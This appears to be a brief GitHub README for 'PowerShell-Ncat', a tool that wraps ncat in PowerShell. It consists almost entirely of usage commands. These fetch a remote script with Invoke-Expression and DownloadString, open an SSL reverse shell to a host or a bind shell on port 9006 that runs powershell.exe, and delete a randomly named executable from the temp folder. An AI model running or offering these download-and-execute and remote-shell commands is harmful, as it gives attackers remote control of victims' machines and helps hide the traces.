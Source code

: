 # PowerShell-Ncat

# Usage - Reverse Shell

Invoke-Expression(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/whitej3rry/PowerShell-Ncat/master/Invoke-Ncat.ps1')

Invoke-Ncat -ArgumentList "192.168.100.10 -v -ssl -e powershell.exe"

# Usage - Bind Shell
Invoke-Expression(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/whitej3rry/PowerShell-Ncat/master/Invoke-Ncat.ps1')

Invoke-Ncat -ArgumentList "-l 9006 -v -ssl -e powershell.exe"

# Remove Environment Variable

PS> Remove-Item $env:temp\tIaSTpEXB.exe
